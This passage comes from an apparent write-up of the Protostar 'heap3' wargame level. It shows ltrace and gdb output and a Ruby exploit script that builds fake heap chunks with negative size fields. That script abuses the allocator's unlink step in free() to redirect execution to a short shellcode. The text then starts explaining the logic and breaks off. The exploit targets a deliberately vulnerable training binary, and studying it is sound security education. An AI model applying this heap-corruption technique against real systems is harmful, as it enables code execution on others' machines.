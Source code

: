 # user@protostar:/tmp$ ltrace -e strcpy /opt/protostar/bin/heap3 a b c
# strcpy(0x0804c008, "a")                              = 0x0804c008
# strcpy(0x0804c030, "b")                              = 0x0804c030
# strcpy(0x0804c058, "c")                              = 0x0804c058
# gdb> print /x 0x0804c008 + 0x04
# $1 = 0x804c00c

binary = "/opt/protostar/bin/heap3"

# chunk1
argv1  = "XXXX"                        # user data, later overwritten by second free()
argv1 << "\x68\x64\x88\x04\x08\xc3"    # shellcode

# chunk2
argv2  = "X" * 24 + "\x01" + "ABCDEFG" # user data

# chunk3
argv2 << [0xfffffff8].pack("V")        # prev_size = -8 && PREV_INUSE = 0
argv2 << [0xfffffffc].pack("V")        # size = -4
argv2 << [0x44444444].pack("V")        # prev_size(unused) for fake chunk 
argv2 << [0x45454545].pack("V")        # size(unused) for fake chunk
argv2 << [0x0804b11c].pack("V")        # ret_loc-0x0c
argv2 << [0x0804c00c].pack("V")        # ret_addr
argv3  = "X"

# *(0x0804b11c+12) = 0x0804c00c; *(0x0804c00c+8) = 0x0804b11c

puts %x[ #{binary} "#{argv1}" "#{argv2}" "#{argv3}" ]
{% endcodeblock %}

To explain the logic behind our code, because `size` has the lowest bit set as
`!PREV_INUSE` and `p` points to the beginning of our current chunk, we
triggered the following part of pseudocode with the first `free()`:
